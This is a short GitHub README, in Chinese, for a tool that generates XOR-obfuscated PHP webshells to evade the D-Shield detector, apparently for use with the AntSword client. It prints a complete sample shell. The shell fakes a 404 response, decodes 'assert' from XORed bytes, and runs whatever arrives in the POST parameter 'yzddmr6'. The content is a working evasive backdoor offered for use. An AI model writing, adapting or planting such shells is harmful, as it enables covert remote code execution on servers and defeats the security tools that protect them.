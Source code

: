 # as_php_xor_bypass
利用随机异或无限免杀D盾蚁剑版



PHP原版请移步:https://github.com/yzddmr6/php_xor_bypass

PYTHON版请移步:https://github.com/c0ny1/WorkScripts/blob/master/php-xor-bypass/php_xor_bypass.py


### 生成 Shell 样例

```
<?php 
header('HTTP/1.1 404');
class COMI { 
    public $c='';
    function __destruct() {
        $_0 = "\xfc" ^ "\x9d";
        $_1 = "\x4" ^ "\x77";
        $_2 = "\xb4" ^ "\xc7";
        $_3 = "\x9b" ^ "\xfe";
        $_4 = "\x93" ^ "\xe1";
        $_5 = "\xe7" ^ "\x93";
        $db =$_0.$_1.$_2.$_3.$_4.$_5;
        return @$db($this->c);
    }
}
$comi = new COMI();
@$comi->c = $_POST['yzddmr6'];
?>
```
